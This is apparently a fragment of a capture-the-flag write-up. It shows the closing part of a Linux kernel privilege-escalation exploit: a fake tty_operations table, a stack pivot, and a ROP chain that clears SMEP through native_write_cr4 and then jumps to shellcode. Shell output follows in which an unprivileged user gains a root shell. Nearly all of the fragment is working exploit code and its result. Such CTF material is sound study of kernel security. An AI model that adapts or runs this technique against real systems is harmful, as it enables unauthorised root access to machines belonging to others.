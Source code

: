 ```cpp
    native_write_cr4=prepare_kernel_cred-pre_static+0xffffffff81008880;
    popraxret=prepare_kernel_cred-pre_static+0xffffffff8102da84;
    xchgeaxesp=prepare_kernel_cred-pre_static+0xffffffff8100008a;
    save_state();

    fake_tty_operations->proc_fops = &fake_file_operations;
    fake_tty_operations->ioctl = xchgeaxesp;
    *ptr = (unsigned long)fake_tty_operations;
    ioctl(fd,COMMAD_WRITE,p2);

    unsigned long lower_address = xchgeaxesp & 0xFFFFFFFF;
    base = lower_address & ~0xfff;
    if (mmap(base, 0x30000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0) != base) {
        perror("mmap");
        exit(1);
    }
    
    unsigned long rop[]={
        popraxret,
        0x6f0,
        native_write_cr4,
        base+0x1000,
        (unsigned long)shellcode
    }; 

    memcpy((void*)lower_address, rop, sizeof(rop));
    ioctl(devfd,0,0);

    return 0;
}
```

Run it and get root shell:
```bash
/ $ id
uid=1000(suctf) gid=1000(suctf) groups=1000(suctf)
/ $ ./exploit 
/ # id
uid=0(root) gid=0(root)
```








